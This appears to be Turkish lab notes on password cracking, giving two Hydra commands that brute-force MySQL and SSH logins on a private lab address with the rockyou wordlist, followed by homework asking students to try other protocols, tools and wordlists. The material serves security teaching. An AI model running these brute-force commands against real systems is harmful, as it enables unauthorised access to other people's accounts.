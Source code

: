 # Sifre Kirma

## Komutlar

```
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://10.0.3.7 -e nsr
hydra -L usernames.txt -P passwords.txt ssh://10.0.3.7 -t 32
```

## Ödevler

- Şifre kırma saldırılarını farklı protokoller için de deneyiniz.
- Telnet protokolüne gerçekleştirilecek şifre kırma saldırılarının SSH'a göre neden stabil olmadığını araştırınız.
- Hydra dışında diğer şifre kırma araçlarını deneyiniz.
- İnternet üzerinden çeşitli wordlistleri araştırınız ve kendi arşivinizi yapınız.
